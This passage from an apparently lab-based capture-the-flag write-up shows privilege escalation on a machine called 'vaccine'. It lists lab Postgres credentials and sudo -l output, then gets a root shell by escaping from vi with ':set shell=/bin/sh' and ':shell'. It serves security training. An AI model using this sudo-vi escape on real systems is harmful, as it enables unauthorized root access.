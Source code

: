 With postgres:P@s5w0rd! credentials we can connect.

Checking permissions with `sudo -l` we find that we can run the file pg_hba.conf with vi app as sudo

```bash
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Checking **[GTFOBINS](https://gtfobins.github.io/gtfobins/vi/#sudo)** privilege escalation methods for vi app, we have two options

![[Pasted image 20230719095206.png]]

```bash
postgres@vaccine:~$ sudo /bin/vi -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/bin/vi -c :!/bin/sh /dev/null' as root on vaccine.
```

The first one didn't work so lets try the second way

```bash
postgres@vaccine:~$ sudo vi /etc/postgresql/11/main/pg_hba.conf

------

:set shell=/bin/sh
:shell

------

# whoami
root
```

And we are root